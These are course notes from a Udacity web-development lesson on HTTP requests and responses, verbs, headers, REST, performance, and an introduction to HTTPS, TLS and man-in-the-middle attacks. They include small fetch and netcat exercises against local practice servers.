<!-- markdownlint-disable MD022 MD032 -->
<!-- # Mobile Web Specialist Nanodegree -->
# Client-Server Communication

[<-- back to Mobile Web Specialist Nanodegree homepage](../index.html)

---

## 1. HTTP's Req/Resp Cycle
### 1.1 Course Intro

Welcome to Client Server Communications, a course about the web.

[](../assets/images/cs1-1.jpg)

Technically, the web is only a small part of the internet. However, it is the only part of the internet that people use without even realizing that what they're using is the web.

The web is the platform that you, the web developer, can use to publish your ideas to the world. It is the common language between your servers and your clients.

[](../assets/images/cs1-2.jpg)

Every time you open a browser, every time you download an app, every time you receive a message on WhatsApp or Facebook, you're using the web.

More generically, in that very moment, a client is communicating with a server, and vice versa.

But what does that actually mean? What's happening when you navigate to a web site? How did the phone know that somebody sent me a message? What capabilities does the web have, and more importantly, what are its limitations?

Hi ,I'm Surma. I'm an engineer at Google in London, and I work with the Chrome team.

[](../assets/images/cs1-3.jpg)

In this course, we are going to understand what the web actually is, how we can use it to your advantage,and how you can avoid mistakes that will make both your user experience and security suffer.

Some of this may seem like review, and it is, but we will also go into the lesser known parts of HTTP.

To think like an engineer, you need to understand both the semantics that HTTP uses, as well as the implementation inside the browser.

We'll use that knowledge to

- use browser APIs to the fullest potential
- secure HTTP against eavesdroppers
- deploy the web's newest protocol, HTTP2.

All this knowledge will help you make informed decisions for your app and persuade others when optimizing and securing their apps.

Hi.I'm Richard, a course developer at Udacity and an experienced web developer.

[](../assets/images/cs1-4.jpg)

While Surma teaches you about HTTP's request and response cycle, security, and the best practices of HTTP2, I'll be here to reinforce this knowledge with examples and quizzes.

Understanding both the capabilities and limitations of the medium we work in on a day to day basis will help you take the next important step towards mastery.

By the end of this course, you will understand literally every byte that is being sent from your browser to the server and back.

### 1.2 HTTP Requests
The internet has been around for longer than the web. While computers already had something to communicate with over the internet, like email or FTP, there was no common and publicly available way to publish and access documents.

This is where Tim Berners-Lee comes in. He wanted an open mechanism for researchers to publish, read, and comment on papers through the internet.

He wanted a mesh of linked documents that were called hypertext documents. Berners-Lee chose a subset of SGML and called it HTML, the Hypertext Markup Language.

[](../assets/images/cs1-5.jpg)

Then he designed HTTP, the Hypertext Transfer Protocol, to transfer these HTML documents.

Hypertext sounds all futuristic and complicated. But it simply means that the text in that document can have references to other documents. These references are called links.

By getting a document, the user can not only read that document but they can navigate to related documents through these links. Especially in a scientific context for which Berners-Lee designed it, this feature turned out to be incredibly useful.

Hypertext can refer to more than text, though. Files can link to images, code, styles, or anything else.

### 1.3 HTTP Requests 2
How does HTTP work?

In its original form, Berners-Lee came up with a template that you can fill into make a request for a document on a server.

The original protocol, later called HTTP 0.9, was incredibly limited. You fill in if you want to retrieve or store a document, where to store the document, including the name and any additional information you think is necessary.

This request is then handed to the server.

[](../assets/images/cs1-6.jpg)

Since the server speaks HTTP, it knows that this is an HTTP request and can, therefore, understand what the client wants.

[](../assets/images/cs1-7.jpg)

The protocol also has templates for the responses. These are a bit more versatile, since a single request can have a variety of outcomes, including:

- errors
- unreadablerequest forms,
- redirecting the client to a completely different server.

Luckily, Rich did a good job, and I know what he wants.

The only thing left for me to do is fill out this form so Richard knows which request I'm responding to. Bandwidth problems.

### 1.4 Fetching a single req
The tubes and forms are basically the underlying concept of HTTP, **requests**, and **responses**.

Well, we're not really going to be shoving paper through tubes, but rather data through network cables.

This is what an actual request looks like.

[](../assets/images/cs1-8.jpg)

This is the exact text the browser sends to the server to request an image called kitty.jpg. Let's dig into the first line a little bit.

In this case, we are trying to 'GET' a document from the server. The protocol is also able to add, delete, and update documents.

[](../assets/images/cs1-9.jpg)

To distinguish between these capabilities, the first line starts with an HTTP method or a verb. This request uses the GET method, which means we want the server to send data to us.

Another example of a method is POST, which instructs the server to save the data we are sending.

[](../assets/images/cs1-10.jpg)

There are more methods than these, but we'll worry about them later when we talked about REST APIs. Let's get back to the original request.

After the method, comes the path and name of the document we would like to get. Here, we want the server to send us a file called kitty.jpg located in the pictures directory.

[](../assets/images/cs1-11.jpg)

The last thing in the first line is the version of the HTTP protocol we are using.

[](../assets/images/cs1-12.jpg)

As of today HTTP/1.1 is the most common and widely supported version, however HTTP/2 is slowly catching up and taking over as the de facto standard.

More on this later. Surma is now going to show you the different kinds of headers an HTTP request can have.

### 1.5 Fetching a single req 2
This part of the request is called the header section, as it contains the headers.

[](../assets/images/cs1-13.jpg)

Headers are additional data about the request itself.

A lot of these headers are standardized and contain information like:

- what type of browser is making the request
- what kind of format the browser supports
- what version of the document is already available in the browser's local cache.

All of these headers are optional except for the host header.

The smallest request that can be made would only consist of the first line and a host header.

At a first glance, a response looks very similar to a request. The biggest difference is probably the first line.

[](../assets/images/cs1-14.jpg)

Here you can find out the status code of the response that indicates if your request was fulfilled successfully, if the document was not found, or if the server wants to redirect you somewhere else.

Just like with the request, the next section is the header section. 

[](../assets/images/cs1-15.jpg)

It not only contains data about the document, but also about the server and the connection.

Again, most of these headers are optional. The only obligatory header is content-length to tell the client how many bytes of data it should expect.

After the headers and an additional empty line,the actual document is sent. This can be a JPEG image an HTML document or whatever you want to transfer to the user.

### 1.6 Multiple Requests
We just saw how to fetch a single document using an HTTP request. These documents can be any kind of data, really. But on the web, everything usually starts with an index document.

The index document is what the server will send back to you if no explicit file is to find in the request. By typing at URL in the address bar of the browser, the user is instructing the browser to open a new connection to the server identified by the hostname in the URL and getting the document specified in the path of the URL.

[](../assets/images/cs1-16.jpg)

In this case, the server will respond with the index.html, and the browser can start parsing it. This is a really interesting step, and the browser does a number of things to handle the received data.

Check out [Converting HTML to the DOM](https://classroom.udacity.com/courses/ud884/lessons/1464158642/concepts/15290985490923) lesson for an explanation on how this works.

After the browser has parsed the response, things start to get a little wild.

As the browser is reading the index.html, it will probably find references to other documents needed to properly display the website. These can be images, style sheets, JavaScript files, videos, you name it.

For each of these resources, another request is sent, and once a response is received by the browser, this entire process of parsing and potentially sending new requests is repeated.

[](../assets/images/cs1-17.jpg)

That also means that each of these resources can, in turn, pull in additional resources. Each landing page will have its own set of dependencies, like images, CSS, and JavaScript files.

[](../assets/images/cs1-18.jpg)

That means that visiting a single URL can send off many more requests than you might be aware of.

### 1.7 Exercise Setup
#### Server Binaries
To get a feel for the way a client and server communicate, we've created a bunch of servers that you'll use to complete hands-on exercises. To prevent any issues, we've created binaries that you'll download and launch to run the server locally.

#### Launching the Server

1. Download the exercise binaries
2. Unzip the file
3. Locate the proper binary for your platform
4. Launch by double clicking

#### Supporting Materials

- [L1-DevTools](http://video.udacity-data.com.s3.amazonaws.com/topher/2016/June/57509461_l1-devtools/l1-devtools.zip)

### 1.8 Quiz: DevTools
In this exercise, you're going to count the number of requests and the total amount of data being transferred over the wire.

To help you accomplish this, you're going to use one of the most valuable tools of a web developer, DevTools.

All of the big browsers have their own form of developer tools with similar features. For simplicity's sake, we're going to use Chrome's DevTools.

To open up DevTools, go to the menu, down to More Tools, and choose Developer Tools.Or just press Command, Option-I on Mac or Control, Shift-I on Windows. Then switch to the network tab.

The binary for this server should be started. So launch it, go to the URL it provides,and you should see this same page.

[](../assets/images/cs1-19.jpg)

As the page is loading, you can see all of the requests being fired off.

Take a look at the requests to see the different headers and the responses.

So count the number of requests and the total amount of data in kilobytes being transferred over the wire, and enter them here.

One quick note: to avoid incorrect results from plugins, extensions, and the browser caching the results, make sure to run this in an incognito window.And make sure disable cache is selected.

#### 1.8 Solution
I've opened up DevTools, and am on the Network tab.

Here, we see an overview of the whole page as it's being loaded.

[](../assets/images/cs1-21.jpg)

Here is a table that lists out all of the requests, with information about each one. Down here at the bottom, DevTools displays the summary for loading the page.

This page had six requests, and it transferred 43.5 kilobytes of data. So these are the numbers that the quiz was looking for.

As you can see, DevTools is an invaluable resource for a web developer, and we'll be using it throughout the entire course.

#### Update
Chrome now automatically includes 'favicon.ico' in the list of requests... This will show as an additional request adding and additional 2k to the download.

[](../assets/images/cs1-20.jpg)

### 1.9 Send Post Request
So far, we've only been requesting the server to send data to us using the GET method. However, sometimes you might want the user to type in some data or upload a picture and send that to the server.

This is where the POST method comes into play that we mentioned earlier.

[](../assets/images/cs1-22.jpg)

With a POST request, the request itself can also have a payload, or body, something we have already seen in responses but not in requests.

What exactly happens to the data once it has been sent to the server is up to the back-end developer and is not in the scope of this course. It is, however, important to know that POST requests are potentially handled differently by proxies and the browser than GET requests.

Have you ever seen one of these? This is what happens when the page you're currently looking at was the result of a POST request.

[](../assets/images/cs1-23.jpg)

If you try to reload such a website, the browser will prompt you to confirm this reload action, as POST requests are allowed to be destructive operations, and repeating it might be more destructive than you originally intended.

That's why it is usually recommended for the back-end developer to not respond to a POST request with a web site but with a redirect, to avoid this rather jarring behavior.

For the user, this redirect is practically invisible but avoids the problems of a reload.

### 1.10 From XHR to Fetch
The browser does a lot of heavy-lifting for us. But as so often in life, we don't always know what we want right from the start.

Imagine a website that wants to show an image of the current weather. We don't know what the weather is going to be when the user visits the website in the future.

Of course, we could have loaded all the images you might possibly need from the very start, but that becomes impractical really quickly.

[](../assets/images/cs1-24.jpg)

So let's talk about Ajax.

Ajax is a group of web technologies that let you make requests programmatically with JavaScript instead of navigating and effectively reloading the entire website.

[](../assets/images/cs1-25.jpg)

XMLHttpRequest, or XHR for short, is the most common way of doing it right now. The API of XHR is arguably confusing and outdated compared to what JavaScript offers nowadays.

That is why we are going to skip talking about XHR and use its successor instead, Fetch.

Fetch does the exact same thing but with a cleaner API utilizing promises, and therefore, it integrates much better with the rest of the modern JavaScript APIs.

[](../assets/images/cs1-26.jpg)

If you want to know more about promises, take a look at our course, JavaScript Promises,linked in the instructor notes.

With Fetch, you can utilize all the HTTP methods the protocol specifies and have full control of which headers are being sent--well, almost all the headers.

[](../assets/images/cs1-27.jpg)

Richard is going to show you a small tool to explore the Fetch API with.Open up the networking tab in your DevTools to see if the browser actually sent the request as you specified it.

### 1.11 Quiz: Fetch
Fetch is so much easier to set up and work with instead of battling against XHR and its unnecessary complexities, so we're giving you a chance to play with fetch.

To complete this exercise, you need to fetch a file from a server. This is the server that you need to set up and interact with. But don't worry; it's not complicated to get upand running.

[](../assets/images/cs1-28.jpg)

[Here's the binary](http://video.udacity-data.com.s3.amazonaws.com/topher/2016/June/5755fd25_l1-fetch-binary/l1-fetch-binary.zip) for this server,so just download the project, launch it, go to the URLit provides, and you should see this same page.

You need to fetch the file password.txt. When you send the request, you have to send it as a PUT request and include the X-Udacity-Exercise header with some text.

If the fetch request is set up correctly,it will return the password. Enter that password here.

[](../assets/images/cs1-29.jpg)

If you want an extra challenge, try coding the fetch request from scratch instead of using the fetch builder form. Good luck.

#### 1.11 Solution
Here's the solution using the form.

[](../assets/images/cs1-30.jpg)

This is the solution written out in console by hand.

```js
fetch('/password.txt', {
    'method': 'PUT',
    'headers': {
        'X-Udacity-Exercise': 'some text'
    }
}).then(response => response.text())
.then(text => console.log(text));
```

### 1.12 Outro
We have looked at the request and response cycle of HTTP, so now you have a solid understanding on how HTTP works and what a browser actually does when you visit a website.

You know how metadata is attached to both requests and responses, and you know how to request additional documents using JavaScript.

Next we'll take a closer look at the HTTP protocol and the actual bytes that are being sent back and forth between the server and the browser.

## 2. HTTP/1
### 2.1 HTTP Intro
As developers, both you and I use HTTP everyday.

We issue GET and POST requests when using Firebase's JavaScript SDK, or just when using the browser on our tablet's or mobile phones to look at web sites.

[](../assets/images/cs2-1.jpg)

To be a good front-end engineer creating web apps, merely using HTTP is not enough.

You will need a deeper understanding to see why certain techniques are being used and why others either don't work, or aren't recommended.

In this lesson, we'll start with a look at the first version of HTTP.

We'll examine the GET and the POST methods and a few other useful methods you might not be as familiar with.

We'll look at a variety of headers and how APIs are designed to work well with the web.

By the end of this lesson, you'll be able to debug HTTP request response pairs on the wire, and will understand what a RESTful API is.

### 2.2 The Netcat Command
#### Netcat
Throughout this lesson we'll be using the [Netcat](https://en.wikipedia.org/wiki/Netcat) command. Netcat is a utility that's used for sending and receiving messages over a network connection.

Netcat is known as the Swiss Army knife of networking tools, and we'll be using it to communicate directly with a server.

#### Netcat command
There are many variations of Netcat, and the one I'll be using is accessed with the `nc` command. 

Here I'm using Netcat to connect to Google on port 80 (the default port for HTTP connections).

[](../assets/images/cs2-2.jpg)

The prompt waits for us to enter the details of the HTTP request. To send a GET request, enter:

```bash
GET / HTTP/1.1
```

...then make sure you press the enter button twice (once to get to a new line, and one more to indicate that you're finished entering the request's headers).

And you'll get something similar to:

[](../assets/images/cs2-3.jpg)

### 2.3 HTTP Verbs
Take a look at these. This one is an image of a flamingo. This one is a request to get this image.

Do you notice anything different between them, though?

[](../assets/images/cs2-4.jpg)

HTTP has been around for such a long time that the protocol still does something that you will rarely find in any Modern protocol. It's regular text and can be read by a human.

The bytes being pushed back and forth on the network are plain, old regular text, and can be read by our human brains.

HTTP simplicity also means that we can directly interact with a protocol without a third party library doing any extra work for us.

Every HTTP request begins with a unique verb called a method and serves a specific purpose.

We already know GET and POST, and although these are the most common methods, there are other methods you will encounter regularly.

[](../assets/images/cs2-5.jpg)

The common set of methods consist of GET, POST, PUT,DELETE, HEAD, and OPTIONS. We will talk more about these methods when we talk about REST APIs.

### 2.4 HTTP Verbs 2
Remember that a request starts off with an HTTP method, the path, and the version of the HTTP protocol to use.

This request is using the HEAD method. 

[](../assets/images/cs2-6.jpg)

HEAD is an interesting method as it allows you to get the headers of a file without having to receive the entire file itself.

This let's you check if there's enough space to store the response or if the cached version of that page is still up to date.

This way the browser can avoid re-downloading a file if it already has the most recent version in its cache.

Looking at the Network tab in DevTools, you probably won't see any HEAD requests when visiting websites.

The problem with using HEAD for cache validation is that you're doing twice the work--you send a HEAD request and then possibly a GET request right afterwards.

[](../assets/images/cs2-7.jpg)

Every request-response pair is called a round trip and they take a lot of time to complete.

With the sheer number of assets that web sites have nowadays, having to send a HEAD request before the potential GET request would slow down the loading of the website considerably.

There are ways to mitigate the cost of these round trips and we'll talk about them later, but for now it is just important to know that we want our sites to have as few round trips as possible and that means reducing the number of requests as best as we can.

The last of the common methods is OPTIONS.

OPTIONS is supposed to give you a list of methods that are accepted on the current URL, but not every server supports this.

[](../assets/images/cs2-8.jpg)

The OPTIONS method might seem odd at first, but becomes very important when we start talking about CORS, which you will cover later.

### 2.5 Quiz: HTTP Verbs
The HTTP verb that's used in a request tells the server what the client wants done. For example, retrieving a resource with a GET requestor, retrieving the resource headers with a head request, and so on.

Here's a list of activities, and here's some HTTP verbs.

[](../assets/images/cs2-9.jpg)

Enter the number of the verb best suited for each task.

#### 2.5 Solution
OK, let's go through this case by case.

[](../assets/images/cs2-10.jpg)

- For this first one, the client wants to check when logo.png was last modified. We know that the last modified header has that information. Since the client is not interested in the actual content of the file, a head request is appropriate here.
- Forms only allow two methods--GET and POST. Since we are sending data, we need to use POST as the method here.
- Whenever you want to retrieve the contents of the file, you need to use GET. All of the verbs use the response body for something else or not at all.
- Finding out which verbs are supported on an endpoint is exactly what OPTIONS method is designed for. So that is the correct answer here.
- Again, we are retrieving content here. So the only method that makes sense is GET.

As you can see, there are many different ways to send a request. For the server to respond correctly,it's important that we're using the right verb for the job.

### 2.6 Common Response Headers
Both requests and responses have a section for headers. Remember that headers contain additional data about a request or a response.

[](../assets/images/cs2-11.jpg)

We've already looked at some of the common request headers. Take a look below at the most important headers a response can have.

#### Response Headers
Headers contain additional data about requests or responses. These are some of the important ones:

`Content-Length` is a header that must be contained in every response and tells the browser the size of the body in the response. This way the browser knows how many bytes it can expect to receive after the header section and can show you a meaningful progress bar when downloading a file.

`Content-Type` is also a non-optional header and tells you what type the document has. This way the browser knows which parsing engine to spin up. If it's an image/jpeg, show the image. It’s text/html? Let’s parse it and fire off the necessary, additional HTTP requests. And so on.

`Last-Modified` is a header that contains the date when the document was last changed. It turned out that the Last-Modified date is not very reliable when trying to figure out if a document has been changed. Sometimes developers will uploaded all files to the server after fixing something, resetting the Last-Modified date on all files even though the contents only changed on a subset. To accommodate this, most servers also send out an ETag. ETag stands for entity tag, and is a unique identifier that changes solely depending on the content of the file. Most servers actually use a hash function like SHA256 to calculate the ETag.

`Cache-Control` is exactly what it sounds like. It allows the server to control how and for how long the client will cache the response it received. Cache-Control is a complex beast and has a lot of built-in features. 99% of the time, you only need the “cacheability“ and the “max-age”.

`If-Modified-Since` permits the server to skip sending the actual content of the document if it hasn’t been changed since the date provided in that header. Is there something similar for ETags? Yes there is! The header is called If-None-Match and does exactly that. If the ETag for the document is still matching the ETag sent in the If-None-Match header, the server won’t send the actual document. Both If-None-Match and If-Modified-Since can be present in the same request, but the ETag takes precedence over the If-Modified-Since, as it is considered more accurate.

There are a lot more headers and a lot to explore. If you want to know more, check out the following information on HTTP headers:

- [list of HTTP headers](https://www.google.com/url?q=https://en.wikipedia.org/wiki/List_of_HTTP_header_fields&sa=D&ust=1460140076629000&usg=AFQjCNHMTe05Wkomeyd8bB9GvVrUyuC1Dg)

### 2.7 Quiz: Request Headers
We've been learning about HTTP verbs and headers, and now it's your turn to send off an HTTP request to a server.

In this exercise, you need to handcraft an HTTP request using either Netcat or Telnet.

[](../assets/images/cs2-12.jpg)

So you need to launch the correct server for your platform, and then the terminal will display the URL and port you'll need to connect to.

In another terminal, use Netcat to connect to the server you just launched. Once connected, you'll need to send an HTTP request with the following information.

- You need to send a Udacity request--not a head, get, or post request. You can probably tell that this isn't a real HTTP verb, but since we created this server, we set it up to handle this special verb.
- In the request, make sure to include the host header, since this is required in HTTP1.
- Include the header `X-Udacity-Exercise-Header` with some non-empty value.
- finally, add the Date header, and make sure it uses the value shown exactly.

The Netcat command I'm using is `nc SERVER PORT`.

#### 2.7 Solution
[](../assets/images/cs2-13.jpg)

### 2.8 REST
When writing web apps, you'll encounter a lot of APIs you'll have to talk to. Some of them might be JavaScript APIs that don't involve much more than calling a function in JavaScript. Other APIs as are provided by third parties and require you to make HTTP requests yourself.

A RESTful API is one that follows a design called REST that works especially well with HTTP.

[](../assets/images/cs2-14.jpg)

REST stands for Representational State Transfer. But let's be honest, that isn't really a very descriptive name. Not all APIs follow the rest pattern, but many do. So let's take a look at the underlying concept.

The basic entities are collections and objects inside those collections. The general pattern to retrieve items from collections is using a GET request with both the collection name and the unique item name in that collection.

[](../assets/images/cs2-15.jpg)

For example, if I want to look up Richard, I'd send this request, and the server would get the record containing the data about Richard.

[](../assets/images/cs2-16.jpg)

If I wanted to update the data in that record, I'd use a PUT request and append the updated information to the request.

[](../assets/images/cs2-17.jpg)

Every subsequent GET request should now yield the updated record.

A POST request is used very similar to PUT. But instead of updating existing records, you use it to create new records.

[](../assets/images/cs2-18.jpg)

Notice that you usually do not provide the name under which the new record will be created but let the server make that choice for you.

The response to that POST request is usually a redirect to the newly created record.

And lastly, DELETE is just what you think it is. It removes items from the collection.

[](../assets/images/cs2-19.jpg)

### 2.9 Quiz: REST
The zoo is looking to add a new whale to the list of animals on its website.
Over here is a list of available headers and paths.

[](../assets/images/cs2-20.jpg)

Enter the letters to construct the correct REST request that will create a new whale.

#### 2.9 Solution
We want to create a new whale, meaning we want to add something to a collection.

This tells us we want to use the post method, so A goes into this first slot.

The website has a list of animals, which tells us that the collection we're working on is called animals, so D goes into the second slot.

Now, the new item in that collection is supposed to be a whale, so adding a slash and whale to the path does the trick. So the last two slots are filled with F and G.

[](../assets/images/cs2-21.jpg)

### 2.10 Performance Basics
We have manually written our own request directly to the wire and received a response from the server just as the server send it. It feels raw, close to the bare metal ,doesn't it, like there's almost no software between us and the bytes being sent. And yet there's still so much happening that we can't directly see, and it actually has a big impact on how fast the entire request response process is.

If you are a little familiar with networking architecture, you might know that HTTP is not the entire story, that's merely the protocol. For a more complete picture, we are using HTTP on top of TCP on top of IP on top of ethernet--probably, mostly, maybe.

[](../assets/images/cs2-22.jpg)

The point is we don't need to understand each of these layers, but TCP in particular has a big impact on how we should structure our requests to have them perform well, and it warrants a close look.

The internet protocol allows us to talk to other machines on the internet, while TCP allows us to have multiple, independent streams of data between these two machines.

These streams are distinguished by port numbers.The TCP protocol also ensures that no packages get lost and that they arrive in the right order.

[](../assets/images/cs2-23.jpg)

All of this requires precautions that cost time and resources. Opening a new connection is especially costly, as the TCP handshake, which makes sure both machines are aware of the newly created communication channel, has to be executed that requires two round trips.

[](../assets/images/cs2-24.jpg)

If you're using HTTPS, the additional TLS handshake has to be executed as well. If HTTPS and TLS are new to you, stick around, and we'll talk about them in the next lesson.

Once all that is done, the actual HTTP protocol can finally take over. Head-of-line blocking is a huge bottleneck to website performance. Browsers being able to open up six parallel connections helps, but it's not great. Later we'll see how HTTP2 fixes issues with head-of-line blocking.

### 2.11 Performance Details
But even then, we have to fight the sheer nature of the web and network architecture.

In this example, over 50% of the time from pressing Enter in the address bar to the page being displayed is spent waiting for the answer. This waiting period is called Time To First Byte, or TTFB.

[](../assets/images/cs2-25.jpg)

If this website needed to grab additional resources, we would have to wait for the response of our first request before we could send out a second request.

[](../assets/images/cs2-26.jpg)

That in turn means that we have another period of time waiting that is not being used effectively.
This problem is called head-of-line blocking.

Let's see an example of what head-of-line blocking is and how it is bad for the user experience.

With HTTP, a connection is like a queue. While the first request is being handled, all other requests have to wait until it is their turn. A lot of time is being wasted here.

[](../assets/images/cs2-27.jpg)

While Richard's drink is being prepared, the other customers are left waiting even though their request would be much faster to make.

The head-of-line is blocking the rest of the customers.

To counteract the limitation a little bit, browsers open up to six parallel connections--or in our coffee shop comparison, they hire another barista.

So while the first connection is waiting for its first byte,a second request can already be sent on the second connection and so on.

Of course, hiring a new barista takes a lot of time and training. In the browser, opening all these connections is also quite costly because of the TCP handshakes necessary.

[](../assets/images/cs2-28.jpg)

The six parallel connections browsers can make is still only a band-aid for the head-of-line blocking. If you have a lot of resources on your page, you will spend most of your time waiting--or staring at the cashier.

Head-of-line blocking is a huge bottleneck to website performance. Browsers being able to open up six parallel connections help, but it's not great.

Later we'll see how HTTP/2 fixes issues with head-of-line blocking.

### 2.12 Performance Details 2
Every time the browser connects to a server to make a request, it has to go through the TCP handshake process. This three-way handshake is very time consuming.

To counteract the cost of these handshakes, HTTP/1.1 introduced the concept of keep-alive.

[](../assets/images/cs2-29.jpg)

If the client sets the connection keep-alive header, the server will not close the connection after successfully delivering the response, but allows the client to reuse the already established connection for additional requests.

[](../assets/images/cs2-30.jpg)

Keep in mind though that you still can send requests before the response for the last request has been fully transferred. All in all, this forces web developers to keep the number of additional resources as low as possible, making the best possible use of their six connections.

This is why JavaScript and CSS files are commonly concatenated into bundles and why images are put together into sprites.

[](../assets/images/cs2-31.jpg)

The bundles can be obtained in just one request.

### 2.13 Outro
So how do you feel? HTTP is weird, isn't it? But it is the foundation of the web as we know it. And the knowledge you just gained is invaluable and will help you understand why things behave the way they do.

Before we dive into HTTP/2, though,we should talk about encryption in HTTPS. It is a highly misunderstood topic and has a reputation of being only for enterprise organizations and e-commerce sites.

That is definitely not correct. So grab a drink. It's much simpler than it sounds.

## 3. HTTPS
### 3.1 HTTPS Intro
Have you ever thought about how naive it is to just use the free Wi-Fi at cafes and similar public places? You are trusting the store owner to not do anything dodgy. And you're trusting that every other person currently using the Wi-Fi hotspot is a good person.

[](../assets/images/cs3-1.jpg)

Not only can they listen to your traffic--you are broadcasting over radio waves, after all--but they could also tamper with the data you receive.

What if you wanted to check your bank account on a public Wi-Fi? Think about every other person being able to read or change your data. We definitely don't want that.

HTTPS is a way to protect you and your users from malicious cafe owners and visitors. As a web developer, HTTPS is even more important since all modern browsers API's are only available if your website is secured with HTTPS.

To exploit the full potential of the web, you need to start using HTTPS, and not just for the log-in page, but every single page.

Knowing a web page is using HTTPS will give your users peace of mind in these kinds of public places.

How can you tell if a website is using HTTPS, and how can you tell if a website is using HTTPS correctly, and how can you use HTTPS on your own website? That's what this lesson is about.

### 3.2 Securing HTTP
At this point, we are painfully aware that HTTP is very easy to read, even for humans. You can almost literally watch requests fly by on a console and still understand what is going on.

So I think we can agree that if someone manages to somehow eavesdrop on an open HTTP connection, the eavesdropper can read all the requests and responses and extract all the data they need.

But how easy is it to eavesdrop on a connection? As I mentioned in the introduction,Wi-Fi makes it much easier as you're literally broadcasting your connection over radio waves.

[](../assets/images/cs3-2.jpg)

So all someone needs to do is listen and with the special listening software it gets even easier. Look in the instructor notes for more information about this. Encrypting the Wi-Fi will help, but you have no control over the settings of the Wi-Fi at a cafe and old encryptions are easily breakable.

That's why one feature of HTTPS is encryption. It will make your browser encrypt requests in a way that only the server you're connected to can decrypt them.

Neither the store owner nor the malicious eavesdropper at your local cafe will be able to read your data stream.

But what if you think you're connected to the right server when you're not?

In a man-in-the-middle attack, or MITM for short, the attacker gets between you and the server you are trying to connect to. When this happens, your browser will make an encrypted connection to their server instead of the server you thought you were trying to connect to, like Facebook.

[](../assets/images/cs3-3.jpg)

The attacker will decrypt your data, read all of your private information,re-encrypt it, and forward it to Facebook's server and vice versa. Neither Facebook nor you would know that they are sitting in the middle.

To remedy this, HTTPS's other feature besides encryption is authentication. The server will have to identify itself in a way only the real server could so you can be sure that you are talking to the right server.

### 3.3 Quiz: MITM
For this exercise, you'll set up a proxy on your system, load a website through the proxy, and examine the result.

[](../assets/images/cs3-4.jpg)

A proxy is a legitimate man-in-the-middle and has many benefits, like saving bandwidth by adding additional compression, down sampling images, and doing aggressive caching.

The proxy you'll be using is just going to--well, that's what you need to figure out.

For this quiz, pick a non HTTPS website to test out. You'll get a chance to try out an HTTPS site in the next quiz.

- Does the text of the website disappear?
- Are the site's images flipped upside down?
- Do the colors of the site get inverted?
- Is the site unreachable?
- Or does nothing visibly change, and the site looks completely normal?

Remember that you should run this in an incognito window to prevent caching. Don't forget that you'll need to run the proxy on your own machine.

#### 3.3 Solution
Here's the answer.

[](../assets/images/cs3-5.jpg)

### 3.4 Quiz: MITM 2
What happens when we navigate to a site using HTTPS?

[](../assets/images/cs3-6.jpg)

### 3.5 TLS & Cert Authority
When we talk about HTTPS, we are actually talking about two different concepts--HTTP and TLS, formerly known as SSL.

We already know about HTTP and TLS stands or Transport Layer Security.

[](../assets/images/cs3-7.jpg)

TLS is not specific to HTTP, but any protocol can use it. For example, there is FTPS, which is FTP with TLS to transfer files securely.

TLS encrypts communication in a way that can't be read by anyone else other than the intended recipients. In practice, it is impossible to break a TLS encryption.

To ensure that you're talking to the server you intend to talk to, TLS utilizes something called the chain of trust. A server identifies itself with a certificate that contains both a little metadata about itself and the fingerprint of an encryption key.

These certificates are issued by one of a handful of certificate authorities. If that certificate is signed by such an authority, you know that if the key you are using matches that fingerprint, then you're talking to the correct server.

The list of certificate authorities can actually be found in the browser. You could even add your very own authority if you wanted to.

What you see in the list are mostly companies that you can buy certificates from. They cost money as they not only validate your server, but also validate your identity as the owner of that server.

Since not every developer can or wants to pay money for a certificate to offer basic security to the users, [Let's Encrypt](https://letsencrypt.org/) has come into the market and offers certificates for free.

[](../assets/images/cs3-8.jpg)

Let's take a closer look at how certificates work and the security they provide.

### 3.6 TLS: Cryptography Primer
TLS has two important cryptographic building blocks--encryption and hashing.

When people think about encryption, they probably think about symmetric encryption. You encrypt some data and give the encrypted data to someone else. The recipient needs the same key to decrypt the data he got, or otherwise, it will be inaccessible to him.

With a few mathematical tricks, the browser can utilize encryption algorithms that use one key for encryption and another one for decryption.

[](../assets/images/cs3-9.jpg)

Mostly, the key for encrypting messages is made public so that anyone that wants to send a message can just go ahead and encrypt with that key.

They, or anybody else, won't be able to decrypt the message with the same key. Only you, who has the decryption key, will be able to decrypt it.

Due to the math that is going on under the hood, both keys can actually be used for encryption and decryption. What one key encrypts can only be decrypted by the other. That's why it makes more sense to talk about a public key that is available to anyone and a private key that is only available to the owner and should be stored securely.

